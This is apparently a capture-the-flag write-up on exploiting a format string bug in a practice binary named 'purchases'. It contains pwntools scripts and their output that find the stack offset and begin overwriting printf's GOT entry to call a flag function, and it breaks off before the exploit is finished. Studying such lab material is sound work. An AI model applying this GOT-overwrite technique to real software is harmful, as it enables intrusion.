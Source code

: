 ## Reference
[A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

[Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

[Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

Our plan is to overwrite the `printf` function to the `flag` function using format string

```c
printf(item);	//Overwrite printf()
printf("s. You're wasting your time! We don't even sell ");	//This line will execute flag()
```

First, we need to find the offset number (Like buffer overflow need to find the buffer size)

By using pwntools we can easily do this:
```python
from pwn import *
elf = ELF('./purchases')
p = elf.process()
p.recvuntil("purchase? ")
p.sendline('aaaaaaaa'+'%p '*10)
print p.recv()
```
Output:
```
You don't have any money to buy aaaaaaaa0x7ffe22bddf00 0x7f6bcbb7e8c0 (nil) 0x7f6bcbb83500 0x7f6bcbb7e8c0 0xc2 0x22be05d6 0x6161616161616161 0x7025207025207025 0x2520702520702520 s. You're wasting your time! We don't even sell aaaaaaaa0x7ffe22bddf00 0x7f6bcbb7e8c0 (nil) 0x7f6bcbb83500 0x7ffe22bddd88 0xc2 0x22be05d6 0x6161616161616161 0x7025207025207025 0x2520702520702520 s. Leave this place and buy aaaaaaaa0x7ffe22bddf00 0x7f6bcbb7e8c0 (nil) 0x7f6bcbb83500 0x7ffe22bddd88 0xc2 0x22be05d6 0x6161616161616161 0x7025207025207025 0x2520702520702520  somewhere else. Get out!
```
We can clearly see the `0x6161616161616161` which is `aaaaaaaa` in hex

So the offset is 10 - 2 = 8

By using `%8$p` we can printf only the 8th argument:
```python
from pwn import *
elf = ELF('./purchases')
p = elf.process()
p.recvuntil("purchase? ")
p.sendline('aaaaaaaa%8$p')
print p.recv()
```
Output:
```
You don't have any money to buy aaaaaaaa0x6161616161616161s. You're wasting your time! We don't even sell aaaaaaaa0x6161616161616161s. Leave this place and buy aaaaaaaa0x6161616161616161 somewhere else. Get out!
```
Yay! Try to replace the `aaaaaaaa` to the printf address:
```python
from pwn import *
elf = ELF('./purchases')
printf_address = elf.symbols['got.printf']	# Get the printf address
p = elf.process()
p.recvuntil("purchase? ")
p.sendline(p64(printf_address)+'%8$p')		# Convert the address to string
print p.recv()
```
But the output is not what I expected:
```
```